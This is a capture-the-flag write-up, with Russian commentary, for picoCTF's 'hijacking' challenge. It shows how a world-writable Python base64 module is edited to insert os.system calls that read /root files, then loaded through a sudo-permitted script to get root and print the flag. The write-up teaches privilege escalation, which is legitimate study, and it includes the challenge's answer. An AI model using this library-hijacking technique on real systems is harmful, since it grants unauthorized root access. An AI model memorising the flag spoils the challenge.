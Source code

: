 # hijacking #
Category: Binary Exploitation

 
Score: 200
 
 Original description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
 
# Hints
1. Check for Hidden files

2. No place like Home:)

   
## Solution ##
 
Подключаемся по ssh.

Посмотрим скрытые файлы:

``picoctf@challenge:~$ ls -al

total 20

drwxr-xr-x 1 picoctf picoctf   36 Apr  1 10:16 .

drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..

-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout

-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc

drwx------ 2 picoctf picoctf   34 Apr  1 10:05 .cache

-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile

-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py

-rw------- 1 picoctf picoctf  960 Apr  1 10:16 .viminfo``

Запустим .server.py

picoctf@challenge:~$ python3 .server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File ".server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname

Выдает ошибку.

Посмотрим через cat файлик:

picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 

Найдём местоположение используемых модулей :

picoctf@challenge:~$ python3
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']

Глядя на разрешения base64 модуля внутри /usr/lib/python3.8, мы имеем полный доступ для чтения, записи и выполнения.

picoctf@challenge:~$ ls -al /usr/lib/python3.8
-rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

Итак, можно модифицировать импортированный base64 модуль с помощью нашего собственного кода, т.к. весь код в импортированном модуле выполняется при импорте.

Проверим, какие команды можно запускать через sudo :

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
  (ALL) /usr/bin/vi
  (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Добавим в начало/lib/python3.8/base64.py через vim следующие строки :

import os
os.system('whoami')
os.system('ls -al /root > /home/picoctf/r.txt')
os.system('cat /root/.flag.txt')

Запусим .server.py:

picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
root
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname


flag: picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}


